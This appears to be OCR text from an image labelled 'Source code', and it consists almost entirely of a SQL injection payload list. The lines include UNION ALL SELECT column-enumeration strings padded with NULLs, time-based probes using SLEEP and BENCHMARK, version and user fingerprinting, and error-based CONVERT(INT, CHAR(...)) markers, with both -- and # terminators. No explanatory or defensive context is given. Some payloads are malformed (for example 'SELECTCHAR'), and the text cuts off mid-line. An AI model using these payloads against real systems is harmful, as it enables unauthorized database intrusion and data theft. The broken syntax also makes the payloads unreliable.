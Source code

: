 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT NULL--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))--   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))--   UNION ALL SELECT NULL#  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))#  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))#  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))#  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#  AND